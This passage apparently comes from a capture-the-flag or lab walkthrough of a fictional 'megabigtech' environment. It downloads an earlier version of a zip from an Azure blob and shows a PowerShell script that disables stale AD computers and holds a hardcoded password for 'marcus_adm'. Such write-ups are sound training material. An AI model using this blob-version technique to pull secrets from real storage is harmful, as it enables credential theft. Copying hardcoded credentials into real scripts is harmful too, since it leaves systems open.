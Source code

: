 ![Structured Curl](/assets/img/Curl%20results%20structured.png)

Downloading the file:

```console
curl -H "x-ms-version: 2019-12-12" 'https://mbtwebsite.blob.core.windows.net/$web/scripts-transfer.zip?versionId=2024-03-29T20:55:40.8265593Z'  --output scripts-transfer.zip
```

This .zip file contains 2 scripts namely `stale_computer_accounts.ps1` & `entra_users.ps1`. Looking at the contents of `stale_computer_accounts.ps1` we can see login credentials to the megabigtech.local domain for `marcus_adm`!

```console
# Define the target domain and OU
$domain = "megabigtech.local"
$ouName = "Review"

# Set the threshold for stale computer accounts (adjust as needed)
$staleDays = 90  # Computers not modified in the last 90 days will be considered stale

# Hardcoded credentials
$securePassword = ConvertTo-SecureString "MegaBigTech123!" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ("marcus_adm", $securePassword)

# Get the current date
$currentDate = Get-Date

# Calculate the date threshold for stale accounts
$thresholdDate = $currentDate.AddDays(-$staleDays)

# Disable and move stale computer accounts to the "Review" OU
Get-ADComputer -Filter {(LastLogonTimeStamp -lt $thresholdDate) -and (Enabled -eq $true)} -SearchBase "DC=$domain" -Properties LastLogonTimeStamp -Credential $credential |
  ForEach-Object {
    $computerName = $_.Name
    $computerDistinguishedName = $_.DistinguishedName

    # Disable the computer account
    Disable-ADAccount -Identity $computerDistinguishedName -Credential $credential

    # Move the computer account to the "Review" OU
```